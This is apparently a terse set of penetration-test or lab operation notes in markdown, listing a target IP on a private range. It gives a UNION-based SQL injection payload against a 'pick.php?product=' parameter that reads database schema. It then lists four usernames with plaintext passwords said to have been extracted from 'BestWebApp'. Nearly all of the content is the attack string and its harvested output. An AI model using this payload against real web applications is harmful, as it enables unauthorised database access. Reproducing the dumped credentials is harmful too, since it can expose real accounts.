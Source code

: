 # SETUP
### IP
```
10.50.34.220
```
# OPNOTES
#### SQL
```
pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
1,3,2
BestWebApp PASSWORDS:
Aaron  ::  apasswordyPa$$word
user2  ::  EaglesIsARE78
user3  ::  Bob4THEEapples
Lroth  ::  anotherpassword4THEages
```

